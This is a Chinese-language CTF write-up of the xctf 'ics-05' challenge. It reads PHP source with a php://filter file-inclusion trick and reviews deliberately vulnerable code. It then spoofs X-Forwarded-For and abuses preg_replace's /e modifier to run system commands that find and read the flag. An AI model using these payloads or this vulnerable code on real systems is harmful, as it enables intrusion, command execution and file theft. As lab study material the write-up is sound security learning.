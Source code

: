 ```yaml
---
title: xctf_writeup_isc05
date: 2020-04-19 14:21:04
tags: [php伪协议,文件包含漏洞,preg_replace()函数漏洞]
categories: xctf_writeup 
---
```


[toc]



### isc_05

> 检索网页 发现只有一个页面可以打开 发现了类似文件包含的url
>
> ![image-20200419142927603](image-20200419142927603.png)

可以猜测page是通过get传入了一个文件 ，所以尝试文件包含。又因为index.php页面存在异常 所以尝试读入index.php

#### 利用PHP伪协议来得到index.php的源码

**php://filter 参数**

| 名称                        | 描述                                                         |
| :-------------------------- | :----------------------------------------------------------- |
| *resource=<要过滤的数据流>* | 这个参数是必须的。它指定了你要筛选过滤的数据流。             |
| *read=<读链的筛选列表>*     | 该参数可选。可以设定一个或多个过滤器名称，以管道符（_        |
| *write=<写链的筛选列表>*    | 该参数可选。可以设定一个或多个过滤器名称，以管道符（_        |
| *<；两个链的筛选列表>*      | 任何没有以 *read=* 或 *write=* 作前缀 的筛选器列表会视情况应用于读或写链。 |

`http://159.138.137.79:59858/index.php?page=php://filter/read=convert.base64-encode/resource=index.php`

读出了base64{index.php}的代码，解码后：

```php
<?php
error_reporting(0);

@session_start();
posix_setuid(1000);


?>
<!DOCTYPE HTML>
<html>

<head>
    <meta charset="utf-8">
    <meta name="renderer" content="webkit">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
    <link rel="stylesheet" href="layui/css/layui.css" media="all">
    <title>设备维护中心</title>
    <meta charset="utf-8">
</head>

<body>
    <ul class="layui-nav">
        <li class="layui-nav-item layui-this"><a href="?page=index">云平台设备维护中心</a></li>
    </ul>
    <fieldset class="layui-elem-field layui-field-title" style="margin-top: 30px;">
        <legend>设备列表</legend>
    </fieldset>
    <table class="layui-hide" id="test"></table>
    <script type="text/html" id="switchTpl">
        <!-- 这里的 checked 的状态只是演示 -->
        <input type="checkbox" name="sex" value="{{d.id}}" lay-skin="switch" lay-text="开|关" lay-filter="checkDemo" {{ d.id==1 0003 ? 'checked' : '' }}>
    </script>
    <script src="layui/layui.js" charset="utf-8"></script>
    <script>
    layui.use('table', function() {
        var table = layui.table,
            form = layui.form;

        table.render({
            elem: '#test',
            url: '/somrthing.json',
            cellMinWidth: 80,
            cols: [
                [
                    { type: 'numbers' },
                     { type: 'checkbox' },
                     { field: 'id', title: 'ID', width: 100, unresize: true, sort: true },
                     { field: 'name', title: '设备名', templet: '#nameTpl' },
                     { field: 'area', title: '区域' },
                     { field: 'status', title: '维护状态', minWidth: 120, sort: true },
                     { field: 'check', title: '设备开关', width: 85, templet: '#switchTpl', unresize: true }
                ]
            ],
            page: true
        });
    });
    </script>
    <script>
    layui.use('element', function() {
        var element = layui.element; //导航的hover效果、二级菜单等功能，需要依赖element模块
        //监听导航点击
        element.on('nav(demo)', function(elem) {
            //console.log(elem)
            layer.msg(elem.text());
        });
    });
    </script>

<?php

$page = $_GET[page];

if (isset($page)) {



if (ctype_alnum($page)) {
?>

    <br /><br /><br /><br />
    <div style="text-align:center">
        <p class="lead"><?php echo $page; die();?></p>
    <br /><br /><br /><br />

<?php

}else{

?>
        <br /><br /><br /><br />
        <div style="text-align:center">
            <p class="lead">
                <?php

                if (strpos($page, 'input') > 0) {
                    die();
                }

                if (strpos($page, 'ta:text') > 0) {
                    die();
                }

                if (strpos($page, 'text') > 0) {
                    die();
                }

                if ($page === 'index.php') {
                    die('Ok');
                }
                    include($page);
                    die();
                ?>
        </p>
        <br /><br /><br /><br />

<?php
}}


//方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试

if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}





?>

</body>

</html>

```

> 代码审计后看到了熟悉的xff，所以第一步肯定是抓包改包模拟内部测试人员。

#### 利用 preg_replace漏洞

[**preg_replace**](http://php.net/manual/zh/function.preg-replace.php)：(PHP 5.5)

**功能** ： 函数执行一个正则表达式的搜索和替换

**定义** ： `mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )`

搜索 **subject** 中匹配 **pattern** 的部分， 如果匹配成功以 **replacement** 进行替换

> - **$pattern** 存在 **/e** 模式修正符，允许代码执行
> - **/e** 模式修正符，是 **preg_replace()** 将 **$replacement** 当做php代码来执行

#### 抓包改包&利用get来构造参数

测试PHPinf0)

`http://159.138.137.79:59858/index.php?pat=/1/e&&rep=phpinfo()&&sub=1`

bp改包：`X-Forwarded-For: 127.0.0.1`

![image-20200419145340265](xctf-write-ics05/image-20200419145340265.png)

寻找flag：`(http://159.138.137.79:59858/index.php?pat=/1/e&&rep=system("find -name flag*“)&&sub=1`

![image-20200419150930811](xctf-write-ics05/image-20200419150930811.png)

***发现了flag的PHP文件***

> 通过`http://159.138.137.79:59858/index.php?pat=/1/e&&rep=system("cat  ./s3chahahaDir/flag/flag.php")&&sub=1`得到flag



![image-20200419151321499](image-20200419151321499.png)

